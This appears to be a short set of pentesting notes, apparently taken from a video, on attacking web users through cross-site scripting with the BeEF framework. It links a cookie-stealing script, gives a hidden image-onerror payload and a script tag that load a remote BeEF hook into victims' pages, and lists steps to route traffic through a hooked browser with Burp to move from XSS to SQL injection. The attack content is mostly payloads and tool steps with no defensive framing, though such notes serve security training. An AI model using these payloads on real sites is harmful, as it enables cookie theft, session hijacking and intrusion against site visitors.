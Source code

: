 This script can help to steal cookies:
```bash
https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py
```










## Notes from Video

### 1 - Keylogging

Metasploit:
```bash
service postgresql start
service metasploit start
```bash

DOM XSS:
```js
<img/src=x style="display:none" onerror="s=document.createElement('script'); s.setAttribute('src','<beef hook>');document.head.appendChild(s)">
```

### 2 - From an XSS to a SQL Injection
```bash
BeEF > Rider > Forge Request
```

PoC XSS:
```js
<span onmouseover="console.info('sounds good')">Great site</span>
```

Inject the BeEF hook:
```js
random message<script src="beef hook"></script>
```
```js
in BeEF > click in the target IP > use as Proxy
- configure a browser proxy such as foxyproxy
- 127.0.0.1:8080
- ignore proxy For localhost, 127.0.0.1, <our ip>
```

in BURP:
```js
- Options > Connections > Upstream Proxy Server
- Destination Host:*
- Proxy Host: 127.0.0.1
- Proxy Port: 6789

- Target > Scope
- Host: <target domain or IP>
```
